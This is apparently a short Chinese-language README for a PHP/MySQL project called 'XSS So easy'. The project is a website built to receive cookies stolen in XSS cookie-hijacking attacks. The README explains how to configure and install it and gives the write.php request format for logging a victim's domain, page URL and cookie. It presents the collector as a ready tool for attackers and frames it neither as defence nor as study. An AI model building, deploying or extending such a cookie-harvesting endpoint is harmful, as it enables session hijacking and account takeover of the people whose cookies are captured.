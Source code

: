 #XSS So easy
##简介
此网站用于XSS Cookie 劫持攻击中接收Cookie
花了半天写出来，简单美化一下，不知道外观如何
适用于 PHP MySQL

##使用方法
配置config.php，填写数据库用户名、密码等信息。
install.php：创建数据库、表等操作
write.php：GET或者POST得到的Cookie。例如：write.php?domain=FOO&url=BAR&cookie=ABC%3dabc
数据库需要提交的字段为：domain（长度小于50）、url、cookie

##附加功能
读、写密码
自定义网站名称（title和页面中显示）
自定义开发者信息（底部显示）

##TODO
目前read.php只能一次输出所有。必要时加上条件查找。
SAE提醒，mysql_connect()函数以后会被抛弃。考虑改写成新版函数。